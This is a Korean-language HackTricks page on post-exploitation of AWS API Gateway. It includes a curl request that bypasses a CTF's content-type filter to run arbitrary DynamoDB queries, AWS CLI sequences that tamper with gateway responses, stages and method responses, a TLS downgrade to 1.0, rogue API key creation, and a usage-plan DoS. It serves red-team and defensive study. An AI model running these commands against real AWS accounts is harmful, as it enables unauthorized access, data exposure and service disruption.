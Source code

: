 # AWS - API Gateway Post Exploitation

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)</strong>를 통해 AWS 해킹을 제로부터 전문가까지 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

- **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
- **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## API Gateway

더 많은 정보는 확인하세요:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 미노출된 API에 액세스

`com.amazonaws.us-east-1.execute-api` 서비스로 [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)에 엔드포인트를 생성하고, 액세스할 수 있는 네트워크(아마도 EC2 머신을 통해)에 엔드포인트를 노출시키고 모든 연결을 허용하는 보안 그룹을 할당할 수 있습니다.\
그런 다음 EC2 머신에서 엔드포인트에 액세스하여 이전에 노출되지 않았던 게이트웨이 API를 호출할 수 있습니다.

### 요청 본문 우회

이 기술은 [**이 CTF 해설**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp)에서 발견되었습니다.

[**AWS 문서**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html)에 나와 있는대로 `PassthroughBehavior` 섹션에서, 기본적으로 **`WHEN_NO_MATCH`** 값은 요청의 **Content-Type** 헤더를 확인할 때, 변형 없이 백엔드로 요청을 전달합니다.

따라서 CTF에서 API Gateway는 `Content-Type: application/json`으로 요청을 보낼 때 응답에서 **플래그 유출을 방지하는** 통합 템플릿을 가지고 있었습니다:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

그러나 **`Content-type: text/json`**을 사용하여 요청을 보내면 해당 필터를 방지할 수 있습니다. 

마지막으로, API Gateway가 `Get` 및 `Options`만 허용하도록 설정되어 있었기 때문에, 본문에 쿼리를 넣고 헤더 `X-HTTP-Method-Override: GET`을 사용하여 POST 요청을 보내면 어떠한 제한 없이 임의의 dynamoDB 쿼리를 보낼 수 있었습니다.
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### 사용 계획 DoS

**열거** 섹션에서 **키의 사용 계획을 얻는 방법**을 볼 수 있습니다. 키가 있고 **월별로 X번 사용으로 제한**되어 있다면 **그냥 사용하여 DoS를 유발**할 수 있습니다.

**API 키**는 **HTTP 헤더**인 **`x-api-key`**에 **포함**되어야 합니다.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 게이트웨이 응답을 수정하여 민감한 정보를 노출하거나 악의적인 스크립트를 실행하는 사용자 정의 헤더 또는 응답 템플릿을 포함**시킬 수 있습니다.
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적인 영향**: 민감한 정보 누출, 악성 스크립트 실행 또는 API 리소스에 대한 무단 액세스.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway 단계를 수정하여 트래픽을 다른 단계로 리디렉션하거나 캐싱 설정을 변경하여 캐시된 데이터에 무단 액세스**를 얻을 수 있습니다.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적인 영향**: 캐시된 데이터에 대한 무단 액세스, API 트래픽 방해 또는 가로채기.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway REST API 메소드의 메소드 응답을 수정하여 민감한 정보를 노출하거나 악성 스크립트를 실행하는 사용자 정의 헤더 또는 응답 템플릿을 포함시킬 수 있습니다**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적 영향**: 민감한 정보 누출, 악성 스크립트 실행 또는 API 리소스에 대한 미인가된 액세스.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **API Gateway REST API 설정을 수정하여 로깅을 비활성화하거나 최소 TLS 버전을 변경하여 API의 보안을 약화시킬 수 있습니다**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적 영향**: API의 보안이 약화되어, 무단 액세스를 허용하거나 민감한 정보를 노출시킬 수 있습니다.

{% hint style="info" %}
테스트가 필요합니다
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, 및 `apigateway:CreateUsagePlanKey` 권한을 가진 공격자는 **새 API 키를 생성하고, 사용 계획과 연결한 후 이러한 키를 사용하여 API에 무단 액세스**할 수 있습니다.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**잠재적 영향**: API 리소스에 대한 무단 액세스, 보안 제어 우회.

{% hint style="info" %}
테스트 필요
{% endhint %}

<details>

<summary><strong>제로부터 영웅이 될 때까지 AWS 해킹 배우기</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **PDF로 HackTricks 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소로 PR을 제출하세요.

</details>
